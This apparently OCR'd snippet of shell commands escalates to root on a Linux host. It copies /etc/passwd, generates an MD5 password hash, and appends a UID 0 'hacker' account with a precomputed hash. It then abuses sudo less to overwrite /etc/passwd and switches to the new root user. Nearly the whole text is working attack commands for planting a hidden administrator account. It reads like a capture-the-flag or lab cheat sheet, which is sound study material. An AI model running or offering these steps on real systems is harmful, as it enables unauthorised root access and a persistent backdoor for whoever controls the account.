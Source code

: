## Add new User = hacker Password = hacker AS ROOT
cp /etc/passwd passwd

## passwod generation (opt)
openssl passwd -1 -salt hacker hacker

## with pass from line abov
echo 'hacker:GENERATED_PASSWORD_HERE:0:0:Hacker:/root:/bin/bash' >> passwd

## with pass = hacker
echo 'hacker:$1$hacker$TzyKlv0/R/c28R.GAeLw.1:0:0:Hacker:/root:/bin/bash' >> passwd

cat /tmp/szalek/passwd | sudo less
-> s -> /etc/passwd
-> q

cat /etc/passwd

su hacker
-> hacker